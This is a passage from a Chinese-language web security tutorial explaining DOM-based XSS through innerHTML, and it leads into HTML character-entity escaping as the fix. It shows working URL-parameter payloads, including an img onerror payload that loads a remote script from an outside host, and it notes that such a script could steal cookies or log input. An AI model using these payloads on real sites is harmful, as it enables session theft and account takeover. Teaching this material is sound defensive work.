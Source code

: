 比如我把这个页面的地址修改为：`www.example.com/user.html?name=<script>alert(1)</script>`。

就相当于:

```
document.getElementById("username").innerHTML = '<script>alert(1)</script>';
```

会有什么效果呢？

结果是什么也没有发生……

这是因为:

> 根据 W3C 规范，script 标签中所指的脚本仅在浏览器第一次加载页面时对其进行解析并执行其中的脚本代码，所以通过 innerHTML 方法动态插入到页面中的 script 标签中的脚本代码在所有浏览器中默认情况下均不能被执行。

千万不要以为这样就安全了……

你把地址改成 `www.example.com/user.html?name=<img src=@ onerror=alert(1)>` 的话，就相当于：

```
document.getElementById("d1").innerHTML="<img src=@ onerror=alert(1)>"
```

此时立刻就弹窗了 1。

也许你会想，不就是弹窗个 1 吗？还能怎么样？能写多少代码？

那我把地址改成 `www.example.com/user.html?name=<img src=@ onerror='var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);' />` 呢？

就相当于：

```
document.getElementById("username").innerHTML = "<img src=@ onerror='var s=document.createElement(\"script\");s.src=\"https://mqyqingfeng.github.io/demo/js/alert.js\";document.body.appendChild(s);' />";
```

整理下其中 onerror 的代码：

```
var s = document.createElement("script");
s.src = "https://mqyqingfeng.github.io/demo/js/alert.js";
document.body.appendChild(s);
```

代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口……

总之，很危险。

为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 DOM 的 innerHTML。

字符实体
----

问题是怎么进行转义呢？而这就要谈到字符实体的概念了。

在 HTML 中，某些字符是预留的。比如说在 HTML 中不能使用小于号（<）和大于号（>），因为浏览器会误认为它们是标签。

如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体（character entities）。
